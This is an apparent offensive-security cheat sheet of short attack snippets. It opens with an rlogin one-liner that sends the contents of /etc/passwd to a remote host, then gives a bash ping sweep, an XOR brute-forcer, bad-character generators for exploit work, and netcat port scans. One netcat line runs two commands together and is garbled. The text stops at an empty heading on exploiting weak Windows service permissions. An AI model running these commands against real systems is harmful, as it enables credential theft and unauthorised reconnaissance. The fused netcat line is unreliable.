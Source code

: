 ### rlogin Data Exfiltration <a id="rlogin-data-exfiltration"></a>

```bash
rlogin -l "$(cat /etc/passwd)" -p port host
```

### Bash Ping Sweeper <a id="bash-ping-sweeper"></a>

```bash
#!/bin/bash
for lastOctet in {1..254}; do
     ping -c 1 10.0.0.$lastOctet | grep "bytes from" | cut -d " " -f 4 | cut -d ":" -f 1 &
done
```

### Brute-forcing XOR'ed string with 1 byte key in Python <a id="brute-forcing-xored-string-with-1-byte-key-in-python"></a>

```python
encrypted = "encrypted-string-here"
for i in range(0,255):
    print("".join([chr(ord(e) ^ i) for e in encrypted]))
```

### Generating Bad Character Strings <a id="generating-bad-character-strings"></a>

```python
# Python
'\\'.join([ "x{:02x}".format(i) for i in range(1,256) ])
```

```bash
# Bash
for i in {1..255}; do printf "\\\x%02x" $i; done; echo -e "\r"
```

### Converting Python to Windows Executable \(.py -&gt; .exe\) <a id="converting-python-to-windows-executable-py-greater-than-exe"></a>

```bash
python pyinstaller.py --onefile convert-to-exe.py
```

### Port Scanning with NetCat <a id="port-scanning-with-netcat"></a>

```bash
nc -nvv -w 1 -z host 1000-2000nc -nv -u -z -w 1 host 160-162
```

### Exploiting Vulnerable Windows Services: Weak Service Permissions <a id="exploiting-vulnerable-windows-services-weak-service-permissions"></a>
